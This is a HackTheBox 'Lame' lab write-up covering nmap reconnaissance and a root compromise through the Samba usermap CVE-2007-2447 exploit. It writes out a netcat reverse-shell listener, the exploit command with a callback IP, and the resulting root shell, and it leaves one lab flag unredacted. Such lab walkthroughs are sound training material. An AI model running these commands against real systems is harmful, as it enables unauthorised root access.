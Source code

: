 ```yaml
---
language: english
noteType: area
skills: "nmap, netcat"
status: draft
tags: [hackthebox, writeup]
title: Lame Write-Up
date: 06 Nov 2024
---
```


# Lame Write-Up

![Lame Overview](./lame-overview.png)

Lame is a very basic machine from the [Beginner Track](https://app.hackthebox.com/tracks/Beginner-Track) track to start getting familiar with the main tools of pentesting.

<!-- truncate -->

## Recon

### nmap

[[nmap]] finds four open TCP ports, FTP (21), SSH (22), old SMB (139), SMB (445):

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:05 CET
Nmap scan report for 10.129.143.253
Host is up (0.048s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

```bash
nmap -p 21,22,139,445 -sV -sC -oN nmap/services_version 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:16 CET
Nmap scan report for 10.129.143.253
Host is up (0.046s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m38s, deviation: 3h32m10s, median: 36s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-11-06T14:17:14-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.82 seconds
```

### SMB

Looing the samba version I found [this](https://github.com/amriunix/CVE-2007-2447). So following the Python script I did the following.

- Open my netcat and type:

```bash
nc -lvnp 1234
```

- Execute GitHub exploit to get the root shell:

```bash
python3 usermap_script.py 10.129.143.253 139 10.10.14.129 1234
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

- Got shell:

```
nc -lvnp 1234
Connection from 10.129.143.253:41195
whoami
root
```

- Get the normal user and root flags:

```
ls home
ftp
makis
service
user
cd /home/makis
ls
user.txt
cat user.txt
f7da385424028604c99dd9ff8bb5a6b3
f7dXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
618XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

And the machine is pwned! ;)

## References

- ch4p. (2017, March 14). <span class="reference-title">Lame</span>. _HTB Labs_. [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)
